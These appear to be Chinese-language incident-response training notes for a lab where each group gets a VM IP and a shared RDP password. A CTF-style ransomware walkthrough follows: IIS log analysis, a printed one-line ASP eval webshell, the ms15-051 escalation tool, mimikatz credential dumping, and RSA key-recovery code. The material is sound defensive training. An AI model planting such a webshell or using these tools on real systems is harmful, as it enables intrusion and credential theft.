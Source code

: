 ###### 版本控制工具
如git，重新上传代码到 git，add+commit+push，然后打开项目，点击 commits，在历史提交版本里面，查看文件更改内容，很容易就可以发现代码被篡改的地方了。
另外，也可以通过 git diff 用来比较文件之间的不同。

###### 文件对比工具
[Beyond Compare](http://www.scootersoftware.com/download.php)
[Win Merge](https://winmerge.org/downloads/)

#### 下午：应急响应实操练习
每组一个Windows虚拟机，虚拟机远程桌面密码：Administrator/Abc@12345
Group1 10.100.2.58
Group2 10.100.2.80
Group3 10.100.2.82
Group4 10.100.2.83
Group5 10.100.2.84
Group6 10.100.2.86
Group7 10.100.2.87
Group8 10.100.2.88
Group9 10.100.2.89

【数据被恶意加密场景】
模拟某国外黑客组织为达到破坏企业正常运行、非法获利的目的，发起了对省移动XX系统的大规模攻击。通过网络探测进行漏洞利用，成功获取云平台服务器管理员权限，黑客组织在其服务器内植入了勒索病毒，导致核心业务瘫痪，维护人员通过后台查看部分数据库数据被恶意加密。为阻止黑客进一步对其他系统及平台数据进行破坏和渗透，信息安全管理部立即启动应急事件响应流程，组织安全技术人员开展安全事件应急处置。

1. 黑客进入网站后台的时间（格式：YY-MM-DD HH-MM-SS）22-06-09 09-45-54
	```
	打开IIS(Internet 信息服务管理器->选择该网站目录->选择日志并查看网站日志目录->用文件资源管理器打开目录位置查看日志)->发现黑客爆破记录，在爆破之后的一条http请求响应码为302并重定向到网站index页面说明黑客成功登入
	```
2. 请提交Webshell文件名：202206090951030702.cer
	```
	使用D盾对网站目录进行扫描可以看到D:\web\dtcms\upload\202206\09\202206090951030702.cer为eval后门文件，内容为<%eval request("cmd")%>
	```
3. 黑客使用的提权工具的名称: ms15-051_x64.exe
	```
	在D:\web\dtcms\upload目录下发现ms15-051_x64.exe，使用whoami显示iis apppool\dtcms，使用ms15-051_x64.exe whoami显示nt authority\system
	并且查看同级目录下的mimikatz.log发现黑客使用mimikatz得到密码，且该文件的创建事件为22-06-09 10:10:31
	```
4. 黑客登录服务器的时间（格式：YY-MM-DD HH-MM-SS）：22-06-09 10-11-01
	```
	windows事件查看器->windows日志->安全->寻找22-06-09 10:10:31之后的登录条目
	```
5. 提交被勒索病毒加密的机密文件内容
	README
	```
	机密文件已经用随机AES密钥+超级超级大大大大大大的RSA密钥所加密，而且密钥已被统统删掉，乖乖的交赎金吧
	```
	RSA
   
    ```
    c = m ^ e % n
    如果n特别大时，则c = m ^ e，即m = c ^ (1/e)
    ```
    求解aes密钥的代码
    ```
    import gmpy2
    import libnum
    g = open("rsa_c", 'r').readlines()
    c = int(g[0][6:], 16)
    e = 0x10001
    m1 = gmpy2.iroot(c, e)
    m = libnum.n2s(int(m1[0]))
    print(m)